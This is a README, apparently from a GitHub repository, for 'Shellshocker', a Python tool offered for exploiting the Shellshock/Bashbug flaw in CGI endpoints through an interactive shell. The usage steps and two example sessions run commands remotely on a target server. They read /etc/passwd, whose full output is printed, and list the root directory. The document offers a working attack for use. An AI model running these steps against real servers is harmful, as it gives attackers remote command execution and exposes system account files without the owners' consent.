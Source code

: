 # Shellshocker
Shellshock easily exploitation

When you find Shellshock / Bashbug vulnerability and want the easiest way to exploit it, you can use Shellshocker.
Shellshocker suggests to avoid user-agent spoofing on-hand. In contrast to that it has a nice shell-interface.

### Usage:
  1. Run the script with python: "python shellshocker.py http://exam.com/cgi-bin/cat"


  2. Hit command and press enter: "cat /etc/passwd"


  3. Read the output :)

### Requirements:
  1. Python  
  2. Mechanize (Can installed by: 'sudo pip install mechanize')

### Examples:
```sh
/.../shellshoker$ python shellshoker.py http://10.0.0.12:591/cgi-bin/cat
Shellshock Command: cat /etc/passwd

root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/spool/mail:/sbin/nologin
uucp:x:10:14:uucp:/var/spool/uucp:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
games:x:12:100:games:/usr/games:/sbin/nologin
gopher:x:13:30:gopher:/var/gopher:/sbin/nologin
ftp:x:14:50:FTP User:/var/ftp:/sbin/nologin
nobody:x:99:99:Nobody:/:/sbin/nologin
vcsa:x:69:69:virtual console memory owner:/dev:/sbin/nologin
saslauth:x:499:76:"Saslauthd user":/var/empty/saslauth:/sbin/nologin
postfix:x:89:89::/var/spool/postfix:/sbin/nologin
sshd:x:74:74:Privilege-separated SSH:/var/empty/sshd:/sbin/nologin
bynarr:x:500:501::/home/bynarr:/bin/bash
apache:x:48:48:Apache:/var/www:/sbin/nologin
apophis:x:501:502::/home/apophis:/bin/bash
```

```sh
/.../shellshoker$ python shellshoker.py http://10.0.0.12:591/cgi-bin/cat
Shellshock Command: ls -lath /

total 101K
drwxrwxrwt.   3 root    root    4.0K Feb  9 22:20 tmp
drwxr-xr-x   17 root    root    3.5K Feb  9 21:14 dev
dr-xr-xr-x.  22 root    root    4.0K Feb  9 21:14 .
dr-xr-xr-x.  22 root    root    4.0K Feb  9 21:14 ..
-rw-r--r--    1 root    root       0 Feb  9 21:14 .autofsck
drwxr-xr-x.  61 root    root    4.0K Feb  9 21:14 etc
drwxr-xr-x   13 root    root       0 Feb  9 21:14 sys
dr-xr-xr-x  110 root    root       0 Feb  9 21:14 proc
dr-xr-x---.   2 root    root    4.0K Jan 15  2015 root
dr-xr-xr-x.   2 root    root    4.0K Dec 30  2014 bin
drwxr-xr-x.  19 root    root    4.0K Dec 30  2014 var
dr-xr-xr-x.   9 root    root     12K Dec 30  2014 lib64
dr-xr-xr-x.   2 root    root     12K Dec 30  2014 sbin
drwxr-xr-x.   4 root    root    4.0K Dec 30  2014 home
-rw-r--r--    1 root    root       0 Nov 12  2014 .autorelabel
dr-xr-xr-x.   8 root    root    4.0K Nov 12  2014 lib
dr-xr-xr-x.   4 root    root    4.0K Nov 12  2014 boot
drwxr-xr-x.  13 root    root    4.0K Nov 12  2014 usr
drwxr-xr-x.   2 root    root    4.0K Nov 12  2014 selinux
drwx------.   2 root    root     16K Nov 12  2014 lost+found
drwxr-xr-x.   2 root    root    4.0K Sep 23  2011 media
drwxr-xr-x.   2 root    root    4.0K Sep 23  2011 opt
drwxr-xr-x.   2 root    root    4.0K Sep 23  2011 srv
drwxr-xr-x    2 apophis apophis  512 Jan  1  1970 mnt
```
